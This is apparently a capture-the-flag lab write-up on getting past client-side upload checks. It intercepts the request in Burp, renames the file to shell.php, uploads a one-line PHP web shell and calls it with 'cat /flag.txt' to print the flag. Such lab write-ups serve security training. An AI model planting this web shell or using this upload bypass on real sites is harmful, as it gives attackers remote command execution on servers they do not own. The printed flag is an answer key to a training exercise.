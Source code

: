 ## Challenge

Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice) 

## Solution

Upload an image to the web page, and intercept that request with Burp.

Send the request to the Repeater.

Change the filename to a file with the `php` extension such as `shell.php`.

On the body of the request, remove the part that was of the image, and put the web shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

Send the request and I see the message `File successfully uploaded`.

Right click on the image that you previously oploaded and open it on a new tab, and you will see the link to the path of the image:

`http://94.237.50.230:59494/profile_images/cat.jpg`

So now we know that the shell is on this location, so visit it at `/profile_images/shell.php` and add hte parameters to read the flag.

```sh
http://94.237.50.230:59494/profile_images/shell.php?cmd=cat /flag.txt
```

And the result is `HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}`.